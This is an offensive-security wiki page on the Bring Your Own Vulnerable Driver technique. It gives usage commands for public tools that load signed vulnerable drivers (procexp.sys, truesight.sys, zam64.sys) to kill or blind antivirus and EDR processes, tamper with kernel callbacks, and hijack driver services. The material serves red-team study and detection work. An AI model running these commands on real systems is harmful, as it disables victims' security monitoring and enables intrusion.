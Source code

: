 ```yaml
---
description: MITRE ATT&CK™ Exploitation for Privilege Escalation - Technique T1068
---
```


# 🛠️ Bring Your Own Vulnerable Driver (BYOVD)

## Theory

As a security mechanism, Windows by default employs a feature called [Driver Signature Enforcement ](https://learn.microsoft.com/en-us/windows-hardware/drivers/install/driver-signing)that ensures kernel-mode drivers have been signed by a valid code signing authority before Windows will permit them to run.

However, we may bring a signed vulnerable driver onto a compromised machine so that we can exploit the vulnerability to execute code in kernel mode.&#x20;

{% hint style="danger" %}
That technique requires administrative privileges on the target.
{% endhint %}

## Practice

### Killing AV/EDDR

Gaining kernel-mode access through vulnerable drivers exploit enables a [Windows Kernel-Mode Code Integrity (KMCI)](https://learn.microsoft.com/en-us/windows/security/hardware-security/enable-virtualization-based-protection-of-code-integrity) bypass, allowing the termination of [Protected Process Light (PPL)](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-#system-protected-process) processes, such as EDR or AV tools.

{% tabs %}
{% tab title="procexp.sys " %}
[Backstab](https://github.com/Yaxser/Backstab) is a tool capable of killing antimalware protected processes by leveraging sysinternals’ [Process Explorer](https://learn.microsoft.com/fr-fr/sysinternals/downloads/process-explorer) driver ([procexp.sys](https://www.loldrivers.io/drivers/0567c6c4-282f-406f-9369-7f876b899c25/?query=procexp)).

```bash
# -n,	Choose process by name, including the .exe suffix
# -p, 	Choose process by PID
# -l, 	List handles of protected process
# -k, 	Kill the protected process by closing its handles
# -x, 	Close a specific handle
# -d, 	Specify path to where ProcExp will be extracted
# -s, 	Specify service name registry key
# -u, 	Unload ProcExp driver
# -a,	adds SeDebugPrivilege

#Examples:
#Kill cyserver
backstab.exe -n cyserver.exe -k

#Close handle E4C of cyserver
backstab.exe -n cyserver.exe -x E4C

#List all handles of cyserver
backstab.exe -n cyserver.exe -l

#Kill protected process with PID 4326, extract ProcExp driver to C:\ drive
backstab.exe -p 4326 -k -d c:\\driver.sys
```
{% endtab %}

{% tab title="truesight.sys" %}
[Truesight.sys](https://www.loldrivers.io/drivers/e0e93453-1007-4799-ad02-9b461b7e0398/?query=truesight.s) is a vulnerable driver from Rogue Anti-Malware Driver 3.3. It can be abuse to kill a PPL process

#### Darkside

[Darkside](https://github.com/ph4nt0mbyt3/Darkside) is a C# AV/EDR Killer that exploit the truesight.sys driver. To exploit, first load and start the driver:

```powershell
sc create TrueSight binPath="c:\path\to\truesight.sys" type= kernel start= demand
sc start TrueSight
```

Then, start Darkside by specifing the PID to kill.

```powershell
Darkside.exe -p <PID>
```

#### TrueSightKiller

[TrueSightKiller](https://github.com/MaorSabag/TrueSightKiller) is a CPP AV/EDR Killer that exploit the truesight.sys driver. To exploit, you need to have the `truesight.sys` driver located at the same location as the executable.

```powershell
# By porcess name
TrueSightKiller.exe -n <ProcessName.exe>

# By pid
TrueSightKiller.exe -p <PID>
```
{% endtab %}

{% tab title="zam64.sys" %}
[Terminator](https://github.com/ZeroMemoryEx/Terminator) terminate all EDR/XDR/AVs processes by abusing the [zam64.sys](https://www.loldrivers.io/drivers/e5f12b82-8d07-474e-9587-8c7b3714d60c/?query=zam64) driver. To exploit, place the driver Terminator.sys in the same path as the executable

```
Terminator.exe
```
{% endtab %}
{% endtabs %}

### Windows Filtering Platform (WPF) Callout Driver

A callout driver implements one or more [callouts](https://learn.microsoft.com/en-us/windows-hardware/drivers/network/callout). Callouts extend the capabilities of the [Windows Filtering Platform](https://learn.microsoft.com/en-us/windows/win32/fwp/windows-filtering-platform-start-page) by processing TCP/IP-based network data in ways that are beyond the scope of the simple filtering functionality. By exploiting such driver we can block outbound traffic from EDR processes.

{% tabs %}
{% tab title="EDRPrison" %}
[EDRPrison](https://github.com/senzee1984/EDRPrison) leverages a legitimate WFP callout driver, [WinDivert](https://reqrypt.org/windivert.html), to effectively silence EDR systems. This project focuses on network-based evasion techniques.&#x20;

```
EDRPrison.exe
```
{% endtab %}
{% endtabs %}

### Kernel Object Tampering

{% tabs %}
{% tab title="EDRSandblast" %}
[EDRSandblast](https://github.com/wavestone-cdt/EDRSandblast) is a tool written in `C` that weaponize a vulnerable signed driver to bypass EDR detections (Notify Routine callbacks, Object Callbacks and `ETW TI` provider) and `LSASS` protections. Multiple userland unhooking techniques are also implemented to evade userland monitoring.

```
Usage: EDRSandblast.exe [-h | --help] [-v | --verbose] <audit | dump | cmd | credguard | firewall | load_unsigned_driver>
[--usermode] [--unhook-method <N>] [--direct-syscalls] [--add-dll <dll name or path>]*
[--kernelmode] [--dont-unload-driver] [--no-restore]
    [--nt-offsets <NtoskrnlOffsets.csv>] [--fltmgr-offsets <FltmgrOffsets.csv>] [--wdigest-offsets <WdigestOffsets.csv>] [--ci-offsets <CiOffsets.csv>] [--internet]
    [--vuln-driver <RTCore64.sys>] [--vuln-service <SERVICE_NAME>]
    [--unsigned-driver <evil.sys>] [--unsigned-service <SERVICE_NAME>]
    [--no-kdp]
[-o | --dump-output <DUMP_FILE>]
```
{% endtab %}
{% endtabs %}

### Hijacking Valid Drivers

{% hint style="info" %}
The technique will not work on HVCI systems due to the impossibility to change the LSTAR pointers if protected by the Hyper-V
{% endhint %}

{% tabs %}
{% tab title="DriverJack" %}
[**DriverJack**](https://github.com/klezVirus/DriverJack) is a tool designed to load a vulnerable driver by abusing lesser-known NTFS techniques. These method bypass the registration of a Driver Service on the system by hijacking an existing service, and also spoof the image path presented in the Driver Load event. To further masquerade the presence of a vulnerable driver, the attack also abuses an Emulated Filesystem Read-Only bypass to swap the content of a driver file on a mounted ISO before loading it.

```
DriverJack.exe
```
{% endtab %}
{% endtabs %}

[https://github.com/klezVirus/DriverJack](https://github.com/klezVirus/DriverJack)

## Resources
